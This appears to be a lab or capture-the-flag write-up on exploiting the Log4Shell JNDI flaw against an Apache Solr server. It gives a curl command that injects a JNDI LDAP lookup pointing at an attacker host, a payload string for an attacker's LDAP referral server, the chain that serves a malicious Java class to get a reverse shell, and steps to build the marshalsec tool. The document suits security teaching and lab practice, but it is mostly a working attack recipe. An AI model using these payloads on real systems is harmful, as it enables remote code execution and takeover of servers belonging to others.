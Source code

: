 *In short: any place for user-supplied data*

## More information on JNDI Attack vector
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

## Checking if the vuln exists, we run a curl
`curl 'http://<VICTIM>:8983/solr/admin/cores?edelo=$\{jndi:ldap://<LHOST>:<LPORT>\}'`
## we get a connection back on our listening port
![Log4J Detection](Log4J-Detection.jpg)

## the response was ugly because our netcat listener wasn't a proper **LDAP handler**
## will use a special server called **LDAP Referral Server** (https://github.com/mbechler/marshalsec) to redirect the request from the victim machine somwhere else where we host our **Mailicous Java Code**

## Steps should be as below:
1. `${jndi:ldap://<ATTACKER-IP>:1389/Resource}` --> request to our LDAP referral server
2. LDAP server *bounces* the request over to our http server hosting the java malicious `.class` file
3. class file gets executed and we get our reverse shell

## Youtube video of the attack demo
https://youtu.be/OJRqyCHheRE

## Building the LDAP Referral server
1. update apt
`apt update -y`
2. install maven
`apt install maven -y`
3. clone marshalsec repository
`git clone https://github.com/mbechler/marshalsec.git`
4. build the **martialsec** utility:
`mvn clean package -DskipTests`
